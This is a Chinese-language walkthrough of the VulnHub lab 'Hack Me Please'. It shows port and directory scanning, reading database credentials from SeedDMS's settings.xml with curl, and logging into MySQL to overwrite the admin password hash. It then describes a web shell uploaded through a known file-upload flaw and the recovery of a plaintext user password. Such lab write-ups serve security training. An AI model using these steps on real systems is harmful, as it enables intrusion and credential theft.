








# Hack Me Please

> https://download.vulnhub.com/hackmeplease/Hack_Me_Please.rar

靶场IP：`192.168.32.226`

扫描对外端口服务

```
┌──(root💀kali)-[~]
└─# nmap -p 1-65535 -sV  192.168.32.226                                                                                                                                                                                                                         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-11 04:54 EDT
Nmap scan report for 192.168.32.226
Host is up (0.0010s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
3306/tcp  open  mysql   MySQL 8.0.25-0ubuntu0.20.04.1
33060/tcp open  mysqlx?

```

访问80端口服务


爆破目录，没有发现任何有用的目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.32.226/ 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.32.226/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/11 05:01:50 Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 314] [--> http://192.168.32.226/img/]
/css                  (Status: 301) [Size: 314] [--> http://192.168.32.226/css/]
/js                   (Status: 301) [Size: 313] [--> http://192.168.32.226/js/] 
/fonts                (Status: 301) [Size: 316] [--> http://192.168.32.226/fonts/]
/server-status        (Status: 403) [Size: 279]                                   
                                                                                  
===============================================================
2022/09/11 05:02:07 Finished
===============================================================

```

在JS文件找到一个路径：`/seeddms51x/seeddms-5.1.22/`



访问：`/seeddms51x/seeddms-5.1.22/`，发现是`SeedDMS`



再次爆破目录

```
┌──(root💀kali)-[/tmp]
└─# gobuster dir -w /usr/share/wordlists/rockyou.txt   -u http://192.168.32.226/seeddms51x/seeddms-5.1.22/ -edrf  -x php,html,cgi
```

使用 curl 下载文件并在其中寻找数据库配置

```sh
┌──(root💀kali)-[/tmp]
└─# curl http://192.168.32.226/seeddms51x/conf/settings.xml -sL | grep -i db                                                     

       - dbDriver: DB-Driver used by adodb (see adodb-readme)
       - dbHostname: DB-Server
       - dbDatabase: database where the tables for seeddms are stored (optional - see adodb-readme)
       - dbUser: username for database-access
       - dbPass: password for database-access
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="seeddms" doNotCheckVersion="false">
       - extraPath: Path to addtional software. This is the directory containing additional software like the adodb directory, or the pear Log package. This path will be added to the php include path

```

使用上述步骤中的凭据登录 MySQL

```
mysql -u seeddms -pseeddms -D seeddms --silent -h 192.168.32.226
```

在那里，我发现了两个表，其中包含**用户**字符串 `users`和`tblUsers`. 由于我无法破解密码，所以我更新了管理员用户的密码



使用**admin:test**凭据以管理员身份成功登录应用程序

```
-- md5("test") = d8e8fca2dc0f896fd7cb4cb0031ba249
UPDATE tblUsers set pwd='098f6bcd4621d373cade4e832627b4f6' where login='admin';
```



在搜索漏洞利用时，我发现这个应用程序的当前版本容易被任意文件上传。这是一个好的开始，我可以上传我的 web shell 并获得反向 Meterpreter

> https://www.exploit-db.com/exploits/47022

首先，我们必须通过导航到"添加文档"菜单来上传 shell。接下来，我们必须浏览 PHP 文件并上传它。这会给我们一个空白页。但是，返回仪表板后，我们会看到一个文件已经上传。





访问反弹shell：`http://192.168.32.226/seeddms51x/data/1048576/4/1.php`



查看密码文件



我们已经从数据库中获得了`saket`用户的密码。

```
MySQL [seeddms]> select * from users;
Employee_id     Employee_first_name     Employee_last_name      Employee_passwd
1       saket   saurav  Saket@#$1337
```


